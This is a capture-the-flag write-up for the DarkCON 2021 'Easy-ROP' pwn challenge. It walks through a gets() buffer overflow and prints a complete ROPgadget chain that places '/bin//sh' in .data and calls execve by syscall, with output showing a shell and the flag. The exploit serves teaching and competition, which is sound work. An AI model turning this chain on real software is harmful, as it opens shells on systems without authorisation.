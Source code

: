 # Easy-ROP - DarkCON 2021

- Category: Pwn
- Points: 441
- Solves: 84
- Solved by: Lu191

## Description

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

`kali@kali:~/# nc 65.1.92.179 49153`

```
Welcome to the darkcon pwn!!
Let us know your name:
```

## Analysis

The program just read from the stdin and then exit. As the name of the challenge suggest this seems to be an easy buffer overflow challenge, so we try to 
pass a very long string to the stdin and we see that the program crashes with a segmentation fault as we expected, so lets analyze the code and confirm this.
We analyze it with ghidra and looking at main() funtcion we confirm that there is a buffer overflow because this program use the function gets() to read from the stdin.

```
void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}
```

So in order to overwrite the IP (Instruction Pointer) we have first to overwrite the stack with 72 chars (64 array's length + 8 for the Frame Pointer) with junk.
Let's check the properties of the executable.

`kali@kali:~/# checksec easy-rop`

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We don't have PIE enabled so any static ROPchain should work fine.
We see with a few tries with pwndbg that the Canary found should not be a problem because it will not be overwritten with a small ropchain.

## Solution

We try to automate the process of creation of the ropchain using a tool called ROPGadget.

`kali@kali:~/# ROPgadget --binary easy-rop --ropchain`

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

Let's analyze the ropchain it built.
We will spawn our shell using syscall and execve which both take a few arguments, let’s look at syscall first:

`syscall(RAX, RDI, RSI, RDX)`

The RAX (Accumulator register) will hold the system call number where we will call execve (number 59 or 0x3b in hexadecimal).
The RDI (Destination Index register) argument will point to /bin/sh.
The RSI and RDX (Source Index register and Data register) are additional arguments that we will zero out.

Since PIE (Position Independent Executable) isn't enabled we know that the .data address won't change from run to run. So, this is a great place to store /bin/sh in memory. Let's check our section permissions and check our .bss section address (located adjacent to the data segment).
We use readelf to copy the address where the .data section starts.

`kali@kali:~/# readelf -t easy-rop`

```
There are 32 section headers, starting at offset 0xd4678:

Intestazioni di sezione:
[N°] Nome   Tipo      Indirizzo         Offset            Link    Dimensione       DimEnt           Info  Allin    Flag
...
[21] .data  PROGBITS  00000000004c00e0  00000000000bf0e0  0       0000000000001a30 0000000000000000  0    32       [0000000000000003]: WRITE, ALLOC
...
```

So we first set rsi with the address where the .data section starts, then we set rax that now contains the string "/bin//sh" we use two forwardslash due to padding.
Then we copy the string "/bin//sh" in memory (.data section).

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
```

We write a null byte to the address where is located the .data section + 8, then we set the right values for the three registers that will be used for the syscall, now we the RDI argument will point to /bin/sh string located where the .data section start and the RSI and RDX point to the null byte located at the address of .data + 8, so they are zero out.

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
```

Our final steps are to set 0x3b (execve syscall) into RAX (this is done setting first rax to 0 xoring rax with rax and then adding 1 to rax until it reaches 0x3b, so 59 times) and then invoke our syscall.

```
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
...
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

`kali@kali:~/# python3 exploit.py`

```
[+] Opening connection to 65.1.92.179 on port 49153: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
easy-rop
flag
run.sh
ynetd
$ cat flag
darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
```

